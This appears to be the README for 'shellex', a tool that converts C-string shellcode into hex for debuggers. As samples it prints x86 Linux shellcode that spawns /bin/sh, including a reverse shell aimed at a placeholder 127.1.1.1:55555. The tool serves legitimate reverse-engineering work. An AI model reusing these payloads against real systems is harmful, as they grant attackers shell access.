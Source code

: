 # shellex
**WARNING**: the ugliest code in the world

C-shellcode to hex converter. 

Handy tool for paste & execute shellcodes in IDA PRO, gdb, windbg, radare2, ollydbg, x64dbg, immunity debugger & 010 editor.

Are you having problems converting C-shellcodes to HEX (maybe c-comments+ASCII mixed?) 

Here is shellex. If the shellcode can be compiled in a C compiler shellex can convert it.

Just execute shellex, paste the shellcode c-string and press ENTER. 

To end use Control+Z(Windows)/Control+D(Linux)

Converting c-shellcode-multi-line-hex+mixed_ascii (pay attention in the mixed part **\x68//sh\x68/bin\x89**):
```
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"
```

shellex output:
```
6A 17 58 31 DB CD 80 6A 0B 58 99 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 89 E1 CD 80
```

Converting c-shellcode-multi-line-with-comments:
```
"\x68"
"\x7f\x01\x01\x01"  // <- IP:  127.1.1.1
"\x5e\x66\x68"
"\xd9\x03"          // <- Port: 55555
"\x5f\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02"
"\x89\xe1\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79"
"\xf9\xb0\x66\x56\x66\x57\x66\x6a\x02\x89\xe1\x6a"
"\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b\x52\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
"\xeb\xce"
```

shellex output:
```
68 7F 01 01 01 5E 66 68 D9 03 5F 6A 66 58 99 6A 01 5B 52 53 6A 02 89 E1 CD 80 93 59 B0 3F CD 80 49 79 F9 B0 66 56 66 57 66 6A 02 89 E1 6A 10 51 53 89 E1 CD 80 B0 0B 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 EB CE
```

Do you need the shellex output as a new c-shellcode-string? just use -h parameter, example converting the shellex output:
```
./shellex -h 6A 17 58 31 DB CD 80 6A 0B 58 99 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 89 E1 CD 80

\x6A\x17\x58\x31\xDB\xCD\x80\x6A\x0B\x58\x99\x52\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x52\x53\x89\xE1\xCD\x80
```
